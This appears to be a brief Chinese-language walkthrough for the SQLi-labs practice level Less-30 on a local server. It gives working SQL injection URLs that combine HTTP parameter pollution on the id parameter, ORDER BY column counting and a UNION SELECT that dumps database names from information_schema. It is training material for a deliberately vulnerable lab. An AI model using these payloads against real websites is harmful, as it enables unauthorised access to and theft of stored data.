

# Less-30
1. http://127.0.0.1:8080/sqli_/Less-30/index.jsp?id=1&id=1“ order by 3--+  这里显示是正常的，4的时候是不正常的，但是显示异常并没有显示报错的信息。说明无法使用报错注入。
2. 接下里和less29相同
3. http://127.0.0.1:8080/sqli_/Less-30/index.jsp?id=1&id=11111" union select 1,2, 3--+
4. http://127.0.0.1:8080/sqli_/Less-30/index.jsp?id=1&id=11111“ union select 1,2, group_concat(schema_name) from    information_schema.schemata --+  接下来就是常规操作了。